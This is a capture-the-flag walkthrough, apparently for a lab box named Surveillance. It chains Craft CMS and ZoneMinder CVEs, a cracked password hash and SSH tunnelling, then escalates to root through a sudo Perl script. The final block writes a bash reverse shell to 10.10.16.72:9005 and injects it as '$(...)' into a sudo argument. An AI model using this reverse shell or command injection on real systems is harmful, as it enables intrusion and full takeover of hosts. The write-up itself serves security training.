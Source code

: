 # Surveillance

```bash
nmap -sC -sV -p- -vv -oN nmap/full $target
```

![NmapScan](Screenshots/2023-12-21-20-21-23.png)

craft cms 4.4.14

![CVE-2023-41892](Screenshots/2023-12-21-20-56-14.png)

![www-data shell](Screenshots/2023-12-21-20-56-49.png)

![stable shell](Screenshots/2023-12-21-21-02-23.png)

![/html/craft/.env](Screenshots/2023-12-21-21-05-26.png)

We discover MySql credentials but that's a deadend, since the hash isn't crackable.

![p.zip](Screenshots/2023-12-21-21-04-36.png)

We'll unzip the files to check the contents, you can transfer the files to your machine, unzip them in /tmp or any other way you'd preffer.

```bash
mkdir -p /tmp/moon
unzip p.zip -d /tmp/moon/
```

![matthew hash](Screenshots/2023-12-21-21-10-35.png)

![cracked hash](Screenshots/2023-12-21-21-11-10.png)

With the password we can now ssh in as matthew

```bash
ssh matthew@$target
```

![Matthew shell](Screenshots/2023-12-21-21-15-08.png)

![user flag](Screenshots/2023-12-21-21-16-33.png)

By running a find command looking for zoneminder user group we find /usr/share/zoneminder

```bash
find / -type f -group zoneminder 2>/dev/null
```

![find Group](Screenshots/2023-12-21-21-20-23.png)

At this point your enumeration skills will come realy in play, as there's alot of files with extensive information, greping for keywords here is quite useful as it's a web app of sorts. So keywords such as password, secret, version, pass, db, database, etc. will gain you quite a bit of information.

```bash
grep password -Ri . 2>/dev/null
```

![database.php](Screenshots/2023-12-21-21-25-55.png)

Credentials but gain the database isn't useful with it's contents.

![log path](Screenshots/2023-12-21-21-33-25.png)

Knowing where logs are a good place to look for more information.

![port 2222 usage](Screenshots/2023-12-21-21-35-08.png)

The fact that we notice a port being used it might be a good time to check what's running locally:

```bash
netstat -tulpn
```

![netstat](Screenshots/2023-12-21-21-36-15.png)

However here we don't see port 2222 used, however there is a port 8080. 3306 is mysql and 53 is DNS, so we can ignore those, but 8080 is worth looking into.

```bash
curl localhost:8080
```

By curling the port we can get a glimpse what's there. Now that we're sure there's something there we need to tunnel it so that we can get a visual.

```bash
ssh matthew@$target -L 2222:localhost:8080
```

![Zoneminder app](Screenshots/2023-12-21-21-42-04.png)

Found the app, but we netiher have credentials nor a version number, so let's look for default creds online, see if those work, if not let's find a version number.

![ZM version](Screenshots/2023-12-21-21-46-32.png)

As the version we found is 1.36.32 Let's look for any known exploits.

[PoC CVE-2023-26035 by heapbytes](https://github.com/heapbytes/CVE-2023-26035)

We follow the instructions and get a shell.

![zoneminder rebshell](Screenshots/2023-12-21-21-51-41.png)

Checking sudo priviledges real quick:

![Sudo -l](Screenshots/2023-12-21-21-53-51.png)

We can run any perl script within /usr/share/ following a cerain pattern.

![Unescaped dbUser](Screenshots/2023-12-21-22-05-09.png)

![explanation](Screenshots/2023-12-21-22-07-31.png)

```bash
mkdir -p /tmp/Mythical
echo 'echo "sh -i >& /dev/tcp/10.10.16.72/9005 0>&1" | bash' > /tmp/Mythical/shell.sh
chmod +x /tmp/Mythical/shell.sh
sudo /usr/bin/zmupdate.pl -v 69 -u '$(/tmp/Mythical/shell.sh)' -p ZoneMinderPassword2023
```

Set up a listener and fire off the sudo command.

![Root shell](Screenshots/2023-12-21-22-26-57.png)

